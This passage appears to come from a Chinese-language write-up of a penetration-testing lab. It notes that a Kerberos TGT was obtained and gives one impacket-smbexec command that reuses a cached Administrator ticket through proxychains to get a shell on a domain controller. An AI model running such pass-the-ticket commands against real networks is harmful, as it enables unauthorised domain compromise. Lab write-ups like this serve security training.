 [![](assets/1711556160-c50d6b025de9ab98e774ee01a3e7c496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806205006-c495feb2-3457-1.png)

可以拿到 TGT，但是脚本只能打一次，不过我们依然可以拿到之前的缓存 TGT 去认证：

```plain
KRB5CCNAME='Administrator.ccache'  proxychains  /usr/bin/impacket-smbexec -target-ip 10.200.107.30 -dc-ip 10.200.107.30 -k  -no-pass @'dc-srv01.holo.live'
```
